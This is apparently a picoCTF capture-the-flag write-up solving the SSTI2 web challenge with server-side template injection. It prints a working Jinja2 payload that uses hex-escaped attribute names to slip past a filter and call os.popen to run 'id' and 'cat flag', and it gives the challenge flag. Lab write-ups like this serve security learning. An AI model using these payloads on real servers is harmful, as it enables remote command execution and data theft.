

# SSTI2 — Pico Gym

> **Room / Challenge:** SSTI2 (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** SSTI2 (web)
- **Link**: `https://play.picoctf.org/practice/challenge/488?category=1&page=2`
- **Difficulty:** `Medium`
- **Date:** `22-10-2025`

---

## Goal

We have to get the flag by using Server-side Template Injection payloads.

## My Solution

This is the updated version of the SSTI1, however it is still a really weak system, we can use the popular [SSTI payloads](https://github.com/payloadbox/ssti-payloads) from PayloadBox. We can try use `{{ 7 * 7 }}` to see if the template injection payload works.



It returns `49` so the template injection works, now from the [SSTI payloads](https://github.com/payloadbox/ssti-payloads), I tried this payload and I can get the result:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


Edit the `id` to `ls -la` found the `flag` file, final exploit:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```


Flag: `picoCTF{sst1_f1lt3r_byp4ss_a9824e27}`
